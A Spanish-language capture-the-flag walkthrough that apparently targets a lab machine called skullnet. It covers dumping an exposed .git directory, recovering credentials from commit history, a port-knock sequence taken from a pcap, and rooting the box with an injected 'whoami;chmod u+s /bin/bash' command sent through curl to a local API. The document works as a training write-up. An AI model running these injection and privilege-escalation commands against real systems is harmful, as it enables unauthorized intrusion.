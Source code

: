 nmap: 80

![image](https://github.com/user-attachments/assets/bbbb702f-524b-4b3b-9c7e-66352f5a510b)

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina

![image](https://github.com/user-attachments/assets/01fa9c26-8511-47e1-8c79-b8ea4e2f6d74)

no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/

![image](https://github.com/user-attachments/assets/9df19053-5d80-4100-96f7-3ba56452a335)

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal

![image](https://github.com/user-attachments/assets/324ea04e-2e75-4fa4-a049-594c42842120)

lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
>648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![image](https://github.com/user-attachments/assets/89472b3c-802c-4b15-867c-84493aa96f4f)


colocamos:
>git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

     - Unstaged changes after reset:
     - D authentication.txt
     - D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:

     - cat authentication.txt 
     - Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
     - This credential and the attached network file will be enough. I know you will get it ;)
     - +%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 

![image](https://github.com/user-attachments/assets/116bd170-09b3-4adb-97df-ea62674730e1)


la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
> 
![image](https://github.com/user-attachments/assets/61641d93-d894-4b88-bdd1-d82df150a6ad)


como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro

![image](https://github.com/user-attachments/assets/751206d3-a53e-4c66-b70c-97520bfa2b35)

ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
![[psaux.png]]

ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![[nano1.png]]

lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484  
![[base1.png]]

en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root
![[root1.png]]

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id
![[grupo1.png]]

ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p
![[rootfinal.png]]
y somos root! 

